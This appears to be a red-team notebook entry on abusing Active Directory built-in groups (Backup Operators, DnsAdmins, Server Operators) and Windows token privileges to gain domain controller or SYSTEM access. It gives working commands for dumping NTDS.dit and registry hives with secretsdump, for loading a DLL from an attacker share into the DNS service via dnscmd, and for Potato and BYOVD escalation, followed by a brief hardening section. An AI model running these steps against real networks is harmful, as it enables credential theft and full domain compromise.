

# 21 - Privileged Groups and Token Privilege Abuse

## 1. Executive Summary

Not every path to Domain Admin runs through DA membership. AD has **built-in privileged groups** that are nearly-DA-equivalent (Backup Operators, Server Operators, Account Operators, DnsAdmins, Print Operators, Exchange groups) and Windows **token privileges** (`SeBackupPrivilege`, `SeRestorePrivilege`, `SeDebugPrivilege`, `SeLoadDriverPrivilege`, `SeImpersonatePrivilege`) that translate "membership in an overlooked group" into **DC compromise or SYSTEM**. E.g. **Backup Operators** can read the `ntds.dit` + SYSTEM hive off a DC → offline DCSync; **DnsAdmins** can load a malicious DLL into the DNS service (runs as SYSTEM on the DC). These are frequently mis-assigned and missed by defenders fixated on "Domain Admins."

## 2. Concept Overview

Privileges are per-token rights that bypass normal ACLs. **`SeBackup/SeRestore`** = read/write any file ignoring DACLs (→ steal NTDS/SAM, or overwrite). **`SeDebug`** = open any process (→ LSASS dump). **`SeLoadDriver`** = load a (vulnerable) kernel driver → BYOVD privesc. **`SeImpersonate`** (service accounts) = the "Potato" family → SYSTEM. Group-wise, several built-ins grant logon-to-DC or object control that escalates.

## 3. Enumeration

```bash
whoami /priv ; whoami /groups
# Dangerous group membership (BloodHound or):
net group "Backup Operators" /domain ; net group "DnsAdmins" /domain
Get-ADGroupMember "Server Operators"
crackmapexec ldap <dc> -u user -p pw --groups
```

## 4. Exploitation

- **Backup Operators (`SeBackupPrivilege`)** — read NTDS.dit off a DC and DCSync offline:
  ```bash
  # remote: backup the registry hives + ntds via the privilege
  reg save HKLM\SYSTEM system.hive ; (use diskshadow/robocopy /b to grab ntds.dit)
  secretsdump.py -ntds ntds.dit -system system.hive LOCAL    # dump all hashes
  ```
- **DnsAdmins** — make DNS (SYSTEM on DC) load a malicious DLL:
  ```cmd
  dnscmd <dc> /config /serverlevelplugindll \\attacker\evil.dll
  sc \\<dc> stop dns & sc \\<dc> start dns       # DLL runs as SYSTEM on the DC
  ```
- **Server Operators** — can manage services on the DC → reconfigure a service binPath to your payload → SYSTEM on DC.
- **Account Operators** — can modify many non-protected accounts/groups → add to a useful group / reset passwords.
- **`SeImpersonate`** (service/IIS/MSSQL accounts) — Potato (PrintSpoofer/JuicyPotatoNG/GodPotato) → SYSTEM locally.
- **`SeLoadDriver`** — load a known-vulnerable signed driver (BYOVD) → kernel exec.

## 5. Mermaid Attack Flow



## 6. Persistence
- Backup Operators / DnsAdmins membership is itself durable near-DA access; convert to krbtgt/DCSync persistence once achieved.

## 7. Post-Exploitation / Data Access
- DC hashes (krbtgt, all users) via NTDS; SYSTEM on DCs/hosts; offline = no DCSync network signature.

## 8. Defense & Hardening
1. Audit/empty over-broad built-in groups (Backup/Server/Account Operators, DnsAdmins, Print Operators) — treat them as Tier-0.
2. Remove unneeded token privileges from service accounts (esp. `SeImpersonate`, `SeLoadDriver`); driver blocklist (HVCI) for BYOVD; LSA Protection.
3. Monitor `serverlevelplugindll` (DnsAdmins), DC service config changes, NTDS/registry-hive access, Potato indicators.

## 9. Chaining & Related Notes
- NTDS dump = offline **[[15 - DCSync Attack]]** (A-36); LSASS via SeDebug: **[[21 - LSASS Dumping]]** (A-36).
- Local SYSTEM techniques overlap Windows privesc (System & Privilege Escalation category, pending).

## 10. Tools
`secretsdump.py`, `diskshadow`/`robocopy /b`, `dnscmd`, `PrintSpoofer`/`GodPotato`, `reg`, `bloodhound`.
